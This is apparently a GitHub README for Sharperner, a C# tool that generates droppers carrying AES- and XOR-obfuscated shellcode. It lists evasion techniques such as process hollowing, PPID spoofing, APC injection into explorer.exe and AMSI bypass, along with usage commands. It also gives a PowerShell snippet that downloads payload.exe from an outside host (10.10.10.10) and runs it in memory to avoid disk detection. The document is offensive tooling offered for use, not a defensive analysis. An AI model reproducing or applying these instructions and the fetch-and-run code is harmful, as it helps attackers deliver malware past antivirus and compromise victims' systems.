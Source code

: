 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

## Features
### Native C++ binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### DLL 
* Spawn as mobsync.exe
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

Sharperner now supports /convert functionality which will convert native binary/PE and manually mapped into .NET executable by using @SharpSploit library. This might be useful for reflective loading (execute-assembly)

## Usage
```
/file       B64,hex,raw 
/type       cs,cpp,dll
/out        Output file Location. (Optional)
/save       Keep pre compiled code. (Optional)

/convert    File input
            (Embed native executable to .NET Assembly using Manual Mapping)

Example:
Sharperner.exe /file:file.txt /type:cs
Sharperner.exe /file:file.txt /out:payload.exe /save
Sharperner.exe /convert:file.exe
```

## Caveat
* Install .NET 3.5 if Dlllauncher project throws errors. ([Download](https://www.microsoft.com/en-us/download/details.aspx?id=21))
* Make sure to have `msbuild.exe` in place to compile projects
* Native C++ payload might not work with long shellcode. Stageless most likely won't work.

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```

## References
* https://github.com/cobbr/SharpSploit
* https://github.com/fireeye/DueDLLigence
* https://github.com/cribdragg3r/Alaris
